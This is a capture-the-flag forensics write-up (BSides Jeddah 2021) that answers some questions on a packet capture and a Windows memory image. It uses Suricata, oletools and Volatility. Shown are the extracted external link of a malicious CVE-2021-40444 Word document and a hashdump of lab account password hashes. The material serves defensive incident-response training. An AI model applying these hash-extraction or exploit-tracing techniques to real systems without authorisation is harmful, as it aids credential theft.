

# Bsides Jeddah 2021

Completed: Yes
Platform: CTFtime

# PCAP

## **Q#1** What is the victim's MAC address?



## **Q#2** What is the address of the company associated with the victim's machine MAC address?

From the contact page of the official website: [https://www.vmware.com/company/office_locations.html](https://www.vmware.com/company/office_locations.html).

`3401 Hillview Avenue Palo Alto CA 94304 US`.

## **Q#3** What is the attacker's IP address? Format: 123.123.123.123


## **Q#4** What is the IPv4 address of the DNS server used by the victim machine?


## **Q#5** What domain is the victim looking up in packet 5648?


## **Q#6** What is the server certificate public key that was used in TLS session: 731300002437c17bdfa2593dd0e0b28d391e680f764b5db3c4059f7abadbb28e


## **Q#7** What domain is the victim connected to in packet 4085?

Follow TCP stream from this packet and find the domain


## **Q#8** The attacker conducted a port scan on the victim machine. How many open ports did the attacker find?


## **Q#9** Analyze the pcap using the provided rules. What is the CVE number falsely alerted by Suricata? Format: CVE-XXXX-XXXXX

```bash
cat fast.log | grep CVE
10/01/2021-15:31:54.593627  [**] [1:2030387:1] ET EXPLOIT Possible CVE-2020-11899 Multicast out-of-bound read [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {UDP} fe80:0000:0000:0000:d4aa:8d54:3230:720b:52484 -> ff02:0000:0000:0000:0000:0000:0001:0003:5355
```

```flow
cat eve.json | grep CVE
{"timestamp":"2021-10-01T15:31:54.593627+0300","flow_id":133719507209947,"pcap_cnt":2692,"event_type":"alert","src_ip":"fe80:0000:0000:0000:d4aa:8d54:3230:720b","src_port":52484,"dest_ip":"ff02:0000:0000:0000:0000:0000:0001:0003","dest_port":5355,"proto":"UDP","alert":{"action":"allowed","gid":1,"signature_id":2030387,"rev":1,"signature":"ET EXPLOIT Possible CVE-2020-11899 Multicast out-of-bound read","category":"Attempted Administrator Privilege Gain","severity":1,"metadata":{"created_at":["2020_06_22"],"former_category":["EXPLOIT"],"performance_impact":["Significant"],"signature_severity":["Major"],"updated_at":["2020_08_20"]}},"app_proto":"failed","flow":{"pkts_toserver":1,"pkts_toclient":0,"bytes_toserver":108,"bytes_toclient":0,"start":"2021-10-01T15:31:54.593627+0300"}}
```

## **Q#10** What is the command parameter sent by the attacker in packet number 2650?


## **Q#11** What is the stream number which contains email traffic?


## **Q#12** What is the victim's email address?


## **Q#13** What was the time attacker sent the email? Format: HH:MM:SS


## **Q#14** What is the version of the program used to send the email? Format: 2.30


## **Q#15** What is the MD5 hash of the email attachment?

```bash
# create a file and paste inside base64 encoded string
vim email-attachment
# check md5
md5sum email-attachment
ebda96f72b7d886883eadf4085ab7dc0  email-attachment
# cat the file, decode it
cat email-attachment | base64 -d > email-attachment2
# check again md5 
55e7660d9b21ba07fc34630d49445030  email-attachment2
```

## **Q#16** What is the CVE number the attacker tried to exploit using the malicious document? Format: CVE-XXXX-XXXXX

Just googled CVE description:

[https://www.trendmicro.com/en_us/research/21/i/remote-code-execution-zero-day--cve-2021-40444--hits-windows--tr.html](https://www.trendmicro.com/en_us/research/21/i/remote-code-execution-zero-day--cve-2021-40444--hits-windows--tr.html)

[https://www.microsoft.com/security/blog/2021/09/15/analyzing-attacks-that-exploit-the-mshtml-cve-2021-40444-vulnerability/](https://www.microsoft.com/security/blog/2021/09/15/analyzing-attacks-that-exploit-the-mshtml-cve-2021-40444-vulnerability/)

[https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40444](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40444)

Also, I saw a picture inside a malicious document that I extracted from a pcap file. 

## **Q#17** The malicious document file contains a URL to a malicious HTML file. Provide the URL for this file.

[https://github.com/decalage2/oletools](https://github.com/decalage2/oletools)

```bash
shogun@kyoto:/tmp$ oleid web\ server.docx 
oleid 0.60.dev1 - http://decalage.info/oletools
THIS IS WORK IN PROGRESS - Check updates regularly!
Please report any issue at https://github.com/decalage2/oletools/issues

Filename: web server.docx
--------------------+--------------------+----------+--------------------------
Indicator           |Value               |Risk      |Description               
--------------------+--------------------+----------+--------------------------
File format         |MS Word 2007+       |info      |                          
                    |Document (.docx)    |          |                          
--------------------+--------------------+----------+--------------------------
Container format    |OpenXML             |info      |Container type            
--------------------+--------------------+----------+--------------------------
Encrypted           |False               |none      |The file is not encrypted 
--------------------+--------------------+----------+--------------------------
VBA Macros          |No                  |none      |This file does not contain
                    |                    |          |VBA macros.               
--------------------+--------------------+----------+--------------------------
XLM Macros          |No                  |none      |This file does not contain
                    |                    |          |Excel 4/XLM macros.       
--------------------+--------------------+----------+--------------------------
External            |1                   |HIGH      |External relationships    
Relationships       |                    |          |found: oleObject - use    
                    |                    |          |oleobj for details        
--------------------+--------------------+----------+--------------------------
```

`oleid` found external relationships, let's use `oleobj`:

```bash
shogun@kyoto:/tmp$ oleobj web\ server.docx 
oleobj 0.56.1 - http://decalage.info/oletools
THIS IS WORK IN PROGRESS - Check updates regularly!
Please report any issue at https://github.com/decalage2/oletools/issues

-------------------------------------------------------------------------------
File: 'web server.docx'
Found relationship 'oleObject' with external link mhtml:http://192.168.112.128/word.html!x-usc:http://192.168.112.128/word.html
```

## **Q#20** The malicious HTML contains a js code that points to a malicious CAB file. Provide the URL to the CAB file?


## **Q#26** What is the port the attacker used to receive the reverse shell on?


# MEMORY

## Q#1 What is the SHA256 hash value of the RAM image?

```bash
sha256sum memory.mem                                                                                                                                                                                                                 1 ⨯
5b3b1e1c92ddb1c128eca0fa8c917c16c275ad4c95b19915a288a745f9960f39  memory.mem
```

## Q#2 What time was the RAM image acquired according to the suspect system? (YYYY-MM-DD HH:MM:SS)

```bash
~/tools/volatility3/vol.py -f memory.mem -profile=Win10x64_14393 windows.info.Info                                                                                                                                                   1 ⨯
Volatility 3 Framework 2.0.0
Progress:  100.00               PDB scanning finished                                                                                              
Variable        Value

Kernel Base     0xf8024b67a000
DTB     0x1ab000
Symbols file:///root/tools/volatility3/volatility3/symbols/windows/ntkrnlmp.pdb/3DFC5F7228304C26859E55E481700385-1.json.xz
Is64Bit True
IsPAE   False
layer_name      0 WindowsIntel32e
memory_layer    1 FileLayer
KdVersionBlock  0xf8024b96ccf8
Major/Minor     15.14393
MachineType     34404
KeNumberProcessors      4
SystemTime      2021-08-06 16:13:23
NtSystemRoot    C:\Windows
NtProductType   NtProductServer
NtMajorVersion  10
NtMinorVersion  0
PE MajorOperatingSystemVersion  10
PE MinorOperatingSystemVersion  0
PE Machine      34404
PE TimeDateStamp        Wed Dec 21 06:50:57 2016
```

## Q#4 What is the computer's name?

Dump the hives:

```bash
~/tools/volatility/vol.py -f memory.mem --profile=Win10x64_14393 hivelist 
Volatility Foundation Volatility Framework 2.6.1
Virtual            Physical           Name
------------------ ------------------ ----
0xffff808fe8767000 0x0000000106c43000 \??\C:\Windows\AppCompat\Programs\Amcache.hve
0xffff808ff03fe000 0x000000012adea000 \??\C:\Users\Administrator\ntuser.dat
0xffff808ff07dc000 0x000000012deab000 \??\C:\Users\Administrator\AppData\Local\Microsoft\Windows\UsrClass.dat
0xffff808ff15b6000 0x000000013357e000 \??\C:\ProgramData\Microsoft\Windows\AppRepository\Packages\Microsoft.Windows.ShellExperienceHost_10.0.14393.693_neutral_neutral_cw5n1h2txyewy\ActivationStore.dat
0xffff808ff1273000 0x000000012ad3f000 \??\C:\ProgramData\Microsoft\Windows\AppRepository\Packages\Microsoft.Windows.Cortana_1.7.0.14393_neutral_neutral_cw5n1h2txyewy\ActivationStore.dat
0xffff808ff130f000 0x0000000134c1a000 \??\C:\Users\Administrator\AppData\Local\Packages\Microsoft.Windows.Cortana_cw5n1h2txyewy\Settings\settings.dat
0xffff808ff133d000 0x0000000134e4d000 \??\C:\Users\Administrator\AppData\Local\Packages\Microsoft.Windows.ShellExperienceHost_cw5n1h2txyewy\Settings\settings.dat
0xffff808fe7e35000 0x00000001f28f7000 [no name]
0xffff808fe7e41000 0x0000000000404000 \REGISTRY\MACHINE\SYSTEM
0xffff808fe7e85000 0x0000000000f98000 \REGISTRY\MACHINE\HARDWARE
0xffff808fe9f1a000 0x000000000241b000 \Device\HarddiskVolume2\EFI\Microsoft\Boot\BCD
0xffff808fe858e000 0x000000000f660000 \SystemRoot\System32\Config\SOFTWARE
0xffff808fe88f6000 0x0000000002035000 \SystemRoot\System32\Config\DEFAULT
0xffff808fef18f000 0x000000010b15e000 \SystemRoot\System32\Config\SECURITY
0xffff808fef172000 0x000000010b965000 \SystemRoot\System32\Config\SAM
0xffff808fef20f000 0x000000010bf5c000 \??\C:\Windows\ServiceProfiles\NetworkService\NTUSER.DAT
0xffff808fef342000 0x000000010d54d000 \SystemRoot\System32\Config\BBI
0xffff808fef358000 0x000000010d574000 \??\C:\Windows\ServiceProfiles\LocalService\NTUSER.DAT
```

`0xffff808fe7e41000 0x0000000000404000 \REGISTRY\MACHINE\SYSTEM` is what we needed. Dump the registry key with the hostname:

```bash
~/tools/volatility/vol.py -f memory.mem --profile=Win10x64_14393 printkey -o 0xffff808fe7e41000 -K 'ControlSet001\Control\ComputerName\ComputerName'  
Volatility Foundation Volatility Framework 2.6.1
Legend: (S) = Stable   (V) = Volatile

----------------------------
Registry: \REGISTRY\MACHINE\SYSTEM
Key name: ComputerName (S)
Last updated: 2021-08-05 13:55:52 UTC+0000

Subkeys:

Values:
REG_SZ                        : (S) mnmsrvc
REG_SZ        ComputerName    : (S) WIN-8QOTRH7EMHC
```

## Q#5 What is the system IP address?

```bash
~/tools/volatility3/vol.py -f memory.mem -profile=Win10x64_14393 windows.netscan.NetScan
Volatility 3 Framework 2.0.0
Progress:  100.00               PDB scanning finished                        
Offset  Proto   LocalAddr       LocalPort       ForeignAddr     ForeignPort     State   PID     Owner   Created

0xb68cb05a9300  TCPv4   0.0.0.0 49668   0.0.0.0 0       LISTENING       1592    spoolsv.exe     2021-08-06 15:26:34.000000 
0xb68cb05a9300  TCPv6   ::      49668   ::      0       LISTENING       1592    spoolsv.exe     2021-08-06 15:26:34.000000 
0xb68cb0751010  TCPv4   192.168.144.131 80      0.0.0.0 0       LISTENING       508     svchost.exe     2021-08-06 15:26:45.000000
```

## Q#6 How many established network connections were at the time of acquisition?

From the previous question, you can count the number of connections with state `ESTABLISHED`.

## Q#7 What is the PID of explorer.exe?

```bash
~/tools/volatility/vol.py -f memory.mem --profile=Win10x64_14393 pslist  
Volatility Foundation Volatility Framework 2.6.1
Offset(V)          Name                    PID   PPID   Thds     Hnds   Sess  Wow64 Start                          Exit                          
------------------ -------------------- ------ ------ ------ -------- ------ ------ ------------------------------ ------------------------------
0xffffb68cb04ac040 System                    4      0    113        0 ------      0 2021-08-06 15:26:02 UTC+0000                                 
0xffffb68cb168f800 smss.exe                292      4      2        0 ------      0 2021-08-06 15:26:02 UTC+0000                                 
0xffffb68cb1cb3080 csrss.exe               412    400     11        0      0      0 2021-08-06 15:26:10 UTC+0000                                 
0xffffb68cb1ccf080 smss.exe                504    292      0 --------      1      0 2021-08-06 15:26:11 UTC+0000   2021-08-06 15:26:11 UTC+0000  
0xffffb68cb17d9540 csrss.exe               512    504     12        0      1      0 2021-08-06 15:26:11 UTC+0000                                 
0xffffb68cb1ea5080 winlogon.exe            560    504      2        0      1      0 2021-08-06 15:26:11 UTC+0000                                 
0xffffb68cb1ea3800 wininit.exe             568    400      1        0      0      0 2021-08-06 15:26:11 UTC+0000                                 
0xffffb68cb1efd080 services.exe            652    568      3        0      0      0 2021-08-06 15:26:13 UTC+0000                                 
0xffffb68cb1f2a7c0 lsass.exe               664    568      8        0      0      0 2021-08-06 15:26:13 UTC+0000                                 
0xffffb68cb1e2d800 svchost.exe             764    652     14        0      0      0 2021-08-06 15:26:16 UTC+0000                                 
0xffffb68cb1e29800 svchost.exe             824    652      8        0      0      0 2021-08-06 15:26:17 UTC+0000                                 
0xffffb68cb1ff5080 dwm.exe                 912    560     15        0      1      0 2021-08-06 15:26:18 UTC+0000                                 
0xffffb68cb1fe2800 svchost.exe             972    652     17        0      0      0 2021-08-06 15:26:19 UTC+0000                                 
0xffffb68cb1fde800 svchost.exe             996    652     14        0      0      0 2021-08-06 15:26:19 UTC+0000                                 
0xffffb68cb2653500 svchost.exe             508    652     40        0      0      0 2021-08-06 15:26:21 UTC+0000                                 
0xffffb68cb1fd6800 svchost.exe             400    652     17        0      0      0 2021-08-06 15:26:21 UTC+0000                                 
0xffffb68cb1fd4800 svchost.exe             944    652     18        0      0      0 2021-08-06 15:26:22 UTC+0000                                 
0xffffb68cb2675800 svchost.exe            1092    652      6        0      0      0 2021-08-06 15:26:23 UTC+0000                                 
0xffffb68cb1fd03c0 svchost.exe            1100    652     23        0      0      0 2021-08-06 15:26:23 UTC+0000                                 
0xffffb68cb272b800 spoolsv.exe            1592    652      9        0      0      0 2021-08-06 15:26:31 UTC+0000                                 
0xffffb68cb28a6800 svchost.exe            1668    652     11        0      0      0 2021-08-06 15:26:31 UTC+0000                                 
0xffffb68cb28c0800 svchost.exe            1732    652      7        0      0      0 2021-08-06 15:26:32 UTC+0000                                 
0xffffb68cb28bc800 svchost.exe            1764    652      4        0      0      0 2021-08-06 15:26:32 UTC+0000                                 
0xffffb68cb28ba800 wlms.exe               1852    652      2        0      0      0 2021-08-06 15:26:33 UTC+0000                                 
0xffffb68cb28b8800 MsMpEng.exe            1876    652      5        0      0      0 2021-08-06 15:26:33 UTC+0000                                 
0xffffb68cb28b6800 vm3dservice.ex         1896    652      2        0      0      0 2021-08-06 15:26:33 UTC+0000                                 
0xffffb68cb28b4800 vmtoolsd.exe           1904    652     11        0      0      0 2021-08-06 15:26:33 UTC+0000                                 
0xffffb68cb28b2800 VGAuthService.         1912    652      2        0      0      0 2021-08-06 15:26:33 UTC+0000                                 
0xffffb68cb2795800 vm3dservice.ex          892   1896      2        0      1      0 2021-08-06 15:26:38 UTC+0000                                 
0xffffb68cb2905080 svchost.exe            2136    652      4        0      0      0 2021-08-06 15:26:39 UTC+0000                                 
0xffffb68cb0799800 dllhost.exe            2812    652     10        0      0      0 2021-08-06 15:26:56 UTC+0000                                 
0xffffb68cb23ab5c0 msdtc.exe              2912    652      9        0      0      0 2021-08-06 15:26:59 UTC+0000                                 
0xffffb68cb23c2340 WmiPrvSE.exe           3004    764     15        0      0      0 2021-08-06 15:27:01 UTC+0000                                 
0xffffb68cb1e9c640 WmiPrvSE.exe           2560    764      5        0      0      0 2021-08-06 15:27:12 UTC+0000                                 
0xffffb68cb2abe800 svchost.exe            3176    652      8        0      0      0 2021-08-06 15:27:19 UTC+0000                                 
0xffffb68cb0496780 RuntimeBroker.         4064    764     11        0      1      0 2021-08-06 15:29:12 UTC+0000                                 
0xffffb68cb2b79080 sihost.exe             2196    508      8        0      1      0 2021-08-06 15:29:13 UTC+0000                                 
0xffffb68cb28f2480 svchost.exe            2756    652      6        0      1      0 2021-08-06 15:29:13 UTC+0000                                 
0xffffb68cb2d34800 taskhostw.exe          2424    508     13        0      1      0 2021-08-06 15:29:13 UTC+0000                                 
0xffffb68cb2b73280 userinit.exe           1140    560      0 --------      1      0 2021-08-06 15:29:16 UTC+0000   2021-08-06 15:29:40 UTC+0000  
0xffffb68cb2d36800 explorer.exe           2676   1140     50        0      1      0 2021-08-06 15:29:16 UTC+0000                                 
0xffffb68cb2d30800 ShellExperienc         3496    764     33        0      1      0 2021-08-06 15:29:21 UTC+0000                                 
0xffffb68cb2d2e800 SearchUI.exe           3408    764     43        0      1      0 2021-08-06 15:29:21 UTC+0000                                 
0xffffb68cb2f17800 ServerManager.         2552   3488     12        0      1      0 2021-08-06 15:29:22 UTC+0000                                 
0xffffb68cb2b6d800 vmtoolsd.exe           3732   2676      8        0      1      0 2021-08-06 15:29:32 UTC+0000                                 
0xffffb68cb3039800 jusched.exe            4172   4132      1        0      1      1 2021-08-06 15:29:34 UTC+0000                                 
0xffffb68cb317d340 cmd.exe                4356   2676      1        0      1      0 2021-08-06 15:29:59 UTC+0000                                 
0xffffb68cb277f800 conhost.exe            4364   4356      3        0      1      0 2021-08-06 15:29:59 UTC+0000                                 
0xffffb68cb2f21800 java.exe               4456   4356     16        0      1      0 2021-08-06 15:30:00 UTC+0000                                 
0xffffb68cb2cfb600 cmd.exe                4556   2676      1        0      1      0 2021-08-06 15:30:04 UTC+0000                                 
0xffffb68cb2a1f480 conhost.exe            4564   4556      3        0      1      0 2021-08-06 15:30:04 UTC+0000                                 
0xffffb68cb2333080 cmd.exe                4736   4556      1        0      1      0 2021-08-06 15:30:05 UTC+0000                                 
0xffffb68cb23e4080 java.exe               4752   4556     44        0      1      0 2021-08-06 15:30:05 UTC+0000                                 
0xffffb68cb2344080 java.exe               4772   4736     18        0      1      0 2021-08-06 15:30:05 UTC+0000                                 
0xffffb68cb3476080 jucheck.exe            1392   4172      4        0      1      1 2021-08-06 15:34:34 UTC+0000                                 
0xffffb68cb1ff3080 fontdrvhost.ex         2824    560      5        0      1      0 2021-08-06 15:35:54 UTC+0000                                 
0xffffb68cb2451380 armsvc.exe              840    652      2        0      0      1 2021-08-06 15:41:38 UTC+0000                                 
0xffffb68cb32c6800 powershell.exe         4344   4752     15        0      1      0 2021-08-06 15:51:40 UTC+0000                                 
0xffffb68cb2444680 conhost.exe            4636   4344      1        0      1      0 2021-08-06 15:51:40 UTC+0000                                 
0xffffb68cb356f080 powershell.exe         4200   4752      0 --------      1      0 2021-08-06 15:51:40 UTC+0000   2021-08-06 15:51:44 UTC+0000  
0xffffb68cb322f800 powershell.exe         2712   4752      0 --------      1      0 2021-08-06 15:51:40 UTC+0000   2021-08-06 15:51:45 UTC+0000  
0xffffb68cb33c9080 powershell.exe         2132   4752      0 --------      1      0 2021-08-06 15:51:40 UTC+0000   2021-08-06 15:51:44 UTC+0000  
0xffffb68cb22fe080 powershell.exe         4264   4752      0 --------      1      0 2021-08-06 15:51:40 UTC+0000   2021-08-06 15:51:44 UTC+0000  
0xffffb68cb2df3080 powershell.exe         3684   4752      0 --------      1      0 2021-08-06 15:51:40 UTC+0000   2021-08-06 15:51:44 UTC+0000  
0xffffb68cb1f64080 powershell.exe         3676   4752      0 --------      1      0 2021-08-06 15:51:40 UTC+0000   2021-08-06 15:51:45 UTC+0000  
0xffffb68cb3045080 powershell.exe         3520   4752      0 --------      1      0 2021-08-06 15:51:40 UTC+0000   2021-08-06 15:51:44 UTC+0000  
0xffffb68cb32fa800 powershell.exe         1012   4752      0 --------      1      0 2021-08-06 15:51:40 UTC+0000   2021-08-06 15:51:44 UTC+0000  
0xffffb68cb34b6800 powershell.exe         2200   4752      0 --------      1      0 2021-08-06 15:51:40 UTC+0000   2021-08-06 15:51:45 UTC+0000  
0xffffb68cb34c2800 powershell.exe          776   4752      0 --------      1      0 2021-08-06 15:51:40 UTC+0000   2021-08-06 15:51:44 UTC+0000  
0xffffb68cb34ca800 powershell.exe         1616   4752      0 --------      1      0 2021-08-06 15:51:40 UTC+0000   2021-08-06 15:51:44 UTC+0000  
0xffffb68cb382a5c0 mmc.exe                2688   2676     14        0      1      0 2021-08-06 15:56:56 UTC+0000                                 
0xffffb68cb24b5080 svchost.exe            1488   4344      7        0      1      0 2021-08-06 16:06:50 UTC+0000                                 
0xffffb68cb3309080 notepad.exe            4596    800      3        0      1      0 2021-08-06 16:12:52 UTC+0000                                 
0xffffb68cb3256580 RamCapture64.e         2568   2676      4        0      1      0 2021-08-06 16:13:20 UTC+0000                                 
0xffffb68cb3871800 conhost.exe            3524   2568      3        0      1      0 2021-08-06 16:13:20 UTC+0000
```

## Q#8 What is the title of the webpage the admin visited using IE? Two words, one-space

```bash
~/tools/volatility/vol.py -f memory.mem --profile=Win10x64_14393 iehistory                                                                                                                                                         130 ⨯
Volatility Foundation Volatility Framework 2.6.1
**************************************************
Process: 2676 explorer.exe
Cache type "DEST" at 0x629d939
Last modified: 2021-08-06 08:39:52 UTC+0000
Last accessed: 2021-08-06 15:39:52 UTC+0000
URL: Administrator@https://news.google.com/topstories?hl=en-US&gl=US&ceid=US:en
Title: Google News
```

## Q#9 What company developed the program used for memory acquisition?

[https://belkasoft.com/](https://belkasoft.com/)

## Q#10 What is the administrator user password?

```bash
~/tools/volatility/vol.py -f memory.mem --profile=Win10x64_14393 hashdump -s 0xffff808fef172000
Volatility Foundation Volatility Framework 2.6.1
Administrator:500:ce673b1a7b11b3378522457effca43c6:af9fd4e593d9803293fd904d625a9e00:::
Guest:501:04f8974116a5ac12a973cebebe80fbba:2dce5a8e2688425cd3a97e43b560b484:::
DefaultAccount:503:9600cfd7b0c08a074d89d46d28c70956:a8dcd38f9c9abd8cff5c4029976e902d:::
```

## Q#11 What is the version of the WebLogic server installed on the system?

```bash
strings memory.mem | grep WebLogic
Implementation-Title: WebLogic Server 14.1.1.0.0  Thu Mar 26 03:15:09
```

## Q#12 The admin set a port forward rule to redirect the traffic from the public port to the WebLogic admin portal port. What is the public and WebLogic admin portal port number? Format PublicPort:WebLogicPort (22:1337)

From this output, we can analyze created connections. Firstly, we see LISTENING on port 80 which suites us well. Secondly, there's another LISTENING on port 7001 and it contains a PID of `java.exe`.

```bash
~/tools/volatility3/vol.py -f memory.mem -profile=Win10x64_14393 windows.netscan.NetScan
Volatility 3 Framework 2.0.0
Progress:  100.00               PDB scanning finished                        
Offset  Proto   LocalAddr       LocalPort       ForeignAddr     ForeignPort     State   PID     Owner   Created

0xb68cb05a9300  TCPv4   0.0.0.0 49668   0.0.0.0 0       LISTENING       1592    spoolsv.exe     2021-08-06 15:26:34.000000 
0xb68cb05a9300  TCPv6   ::      49668   ::      0       LISTENING       1592    spoolsv.exe     2021-08-06 15:26:34.000000 
0xb68cb0751010  TCPv4   192.168.144.131 80      0.0.0.0 0       LISTENING       508     svchost.exe     2021-08-06 15:26:45.000000 
0xb68cb0766d40  UDPv6   ::1     1900    *       0               3176    svchost.exe     2021-08-06 15:27:19.000000 
0xb68cb079bbd0  UDPv6   ::1     60614   *       0               3176    svchost.exe     2021-08-06 15:27:19.000000 
0xb68cb0a9fec0  UDPv4   0.0.0.0 0       *       0               4344    powershell.exe  2021-08-06 15:54:58.000000 
0xb68cb0f05350  UDPv4   192.168.144.131 138     *       0               4       System  2021-08-06 15:26:24.000000 
0xb68cb1254ec0  TCPv4   0.0.0.0 135     0.0.0.0 0       LISTENING       824     svchost.exe     2021-08-06 15:26:17.000000 
0xb68cb1cd12f0  TCPv4   0.0.0.0 135     0.0.0.0 0       LISTENING       824     svchost.exe     2021-08-06 15:26:17.000000 
0xb68cb1cd12f0  TCPv6   ::      135     ::      0       LISTENING       824     svchost.exe     2021-08-06 15:26:17.000000 
0xb68cb1e278a0  TCPv4   0.0.0.0 49664   0.0.0.0 0       LISTENING       568     wininit.exe     2021-08-06 15:26:17.000000 
0xb68cb1e278a0  TCPv6   ::      49664   ::      0       LISTENING       568     wininit.exe     2021-08-06 15:26:17.000000 
0xb68cb1ec97a0  TCPv4   192.168.144.131 139     0.0.0.0 0       LISTENING       4       System  2021-08-06 15:26:24.000000 
0xb68cb1ed8ec0  UDPv4   0.0.0.0 0       *       0               2136    svchost.exe     2021-08-06 15:26:41.000000 
0xb68cb1ed8ec0  UDPv6   ::      0       *       0               2136    svchost.exe     2021-08-06 15:26:41.000000 
0xb68cb1f099e0  UDPv4   192.168.144.131 137     *       0               4       System  2021-08-06 15:26:24.000000 
0xb68cb1f6e740  TCPv4   127.0.0.1       49676   127.0.0.1       49675   ESTABLISHED     4752    java.exe        2021-08-06 15:30:28.000000 
0xb68cb1fc0dc0  TCPv4   0.0.0.0 49664   0.0.0.0 0       LISTENING       568     wininit.exe     2021-08-06 15:26:17.000000 
0xb68cb22479f0  UDPv4   192.168.144.131 60615   *       0               3176    svchost.exe     2021-08-06 15:27:19.000000 
0xb68cb22a9430  UDPv4   127.0.0.1       60616   *       0               3176    svchost.exe     2021-08-06 15:27:19.000000 
0xb68cb22a9ec0  UDPv6   fe80::5caf:aaae:b035:834d       60613   *       0               3176    svchost.exe     2021-08-06 15:27:19.000000 
0xb68cb230b010  UDPv4   0.0.0.0 5353    *       0               1100    svchost.exe     2021-08-06 15:26:55.000000 
0xb68cb2315dd0  UDPv4   127.0.0.1       1900    *       0               3176    svchost.exe     2021-08-06 15:27:19.000000 
0xb68cb231f480  UDPv4   192.168.144.131 1900    *       0               3176    svchost.exe     2021-08-06 15:27:19.000000 
0xb68cb2344cf0  TCPv4   0.0.0.0 49669   0.0.0.0 0       LISTENING       652     services.exe    2021-08-06 15:26:56.000000 
0xb68cb2344cf0  TCPv6   ::      49669   ::      0       LISTENING       652     services.exe    2021-08-06 15:26:56.000000 
0xb68cb2352330  TCPv4   0.0.0.0 49669   0.0.0.0 0       LISTENING       652     services.exe    2021-08-06 15:26:56.000000 
0xb68cb23b3aa0  UDPv4   0.0.0.0 5050    *       0               400     svchost.exe     2021-08-06 15:28:56.000000 
0xb68cb2404540  UDPv4   0.0.0.0 0       *       0               400     svchost.exe     2021-08-06 15:26:34.000000 
0xb68cb2405ec0  UDPv4   0.0.0.0 0       *       0               400     svchost.exe     2021-08-06 15:26:34.000000 
0xb68cb2405ec0  UDPv6   ::      0       *       0               400     svchost.exe     2021-08-06 15:26:34.000000 
0xb68cb2421b30  UDPv4   0.0.0.0 123     *       0               400     svchost.exe     2021-08-06 15:26:55.000000 
0xb68cb24444e0  UDPv4   0.0.0.0 0       *       0               508     svchost.exe     2021-08-06 15:26:41.000000 
0xb68cb24444e0  UDPv6   ::      0       *       0               508     svchost.exe     2021-08-06 15:26:41.000000 
0xb68cb246dd50  UDPv4   0.0.0.0 0       *       0               1100    svchost.exe     2021-08-06 15:26:55.000000 
0xb68cb246dd50  UDPv6   ::      0       *       0               1100    svchost.exe     2021-08-06 15:26:55.000000 
0xb68cb24aeec0  TCPv4   0.0.0.0 445     0.0.0.0 0       LISTENING       4       System  2021-08-06 15:26:38.000000 
0xb68cb24aeec0  TCPv6   ::      445     ::      0       LISTENING       4       System  2021-08-06 15:26:38.000000 
0xb68cb24b8540  UDPv4   0.0.0.0 0       *       0               508     svchost.exe     2021-08-06 15:26:38.000000 
0xb68cb24ba010  UDPv4   0.0.0.0 500     *       0               508     svchost.exe     2021-08-06 15:26:38.000000 
0xb68cb24e88f0  TCPv4   0.0.0.0 47001   0.0.0.0 0       LISTENING       4       System  2021-08-06 15:26:39.000000 
0xb68cb24e88f0  TCPv6   ::      47001   ::      0       LISTENING       4       System  2021-08-06 15:26:39.000000 
0xb68cb24ff8f0  TCPv4   0.0.0.0 5985    0.0.0.0 0       LISTENING       4       System  2021-08-06 15:26:39.000000 
0xb68cb24ff8f0  TCPv6   ::      5985    ::      0       LISTENING       4       System  2021-08-06 15:26:39.000000 
0xb68cb26862d0  TCPv4   0.0.0.0 49668   0.0.0.0 0       LISTENING       1592    spoolsv.exe     2021-08-06 15:26:34.000000 
0xb68cb268ca30  TCPv4   0.0.0.0 49665   0.0.0.0 0       LISTENING       996     svchost.exe     2021-08-06 15:26:22.000000 
0xb68cb268ca30  TCPv6   ::      49665   ::      0       LISTENING       996     svchost.exe     2021-08-06 15:26:22.000000 
0xb68cb268e9c0  TCPv4   0.0.0.0 49665   0.0.0.0 0       LISTENING       996     svchost.exe     2021-08-06 15:26:22.000000 
0xb68cb26cdcf0  TCPv4   0.0.0.0 49666   0.0.0.0 0       LISTENING       664     lsass.exe       2021-08-06 15:26:26.000000 
0xb68cb26cdcf0  TCPv6   ::      49666   ::      0       LISTENING       664     lsass.exe       2021-08-06 15:26:26.000000 
0xb68cb26dbad0  UDPv4   0.0.0.0 5353    *       0               1100    svchost.exe     2021-08-06 15:26:55.000000 
0xb68cb26dbad0  UDPv6   ::      5353    *       0               1100    svchost.exe     2021-08-06 15:26:55.000000 
0xb68cb271e340  TCPv4   0.0.0.0 49666   0.0.0.0 0       LISTENING       664     lsass.exe       2021-08-06 15:26:26.000000 
0xb68cb27f2d80  UDPv4   0.0.0.0 0       *       0               2136    svchost.exe     2021-08-06 15:26:41.000000 
0xb68cb28323e0  TCPv4   0.0.0.0 49667   0.0.0.0 0       LISTENING       508     svchost.exe     2021-08-06 15:26:31.000000 
0xb68cb28323e0  TCPv6   ::      49667   ::      0       LISTENING       508     svchost.exe     2021-08-06 15:26:31.000000 
0xb68cb2867460  TCPv4   0.0.0.0 49667   0.0.0.0 0       LISTENING       508     svchost.exe     2021-08-06 15:26:31.000000 
0xb68cb28a88a0  UDPv4   0.0.0.0 4500    *       0               508     svchost.exe     2021-08-06 15:26:38.000000 
0xb68cb28a88a0  UDPv6   ::      4500    *       0               508     svchost.exe     2021-08-06 15:26:38.000000 
0xb68cb28a8ec0  UDPv4   0.0.0.0 500     *       0               508     svchost.exe     2021-08-06 15:26:38.000000 
0xb68cb28a8ec0  UDPv6   ::      500     *       0               508     svchost.exe     2021-08-06 15:26:38.000000 
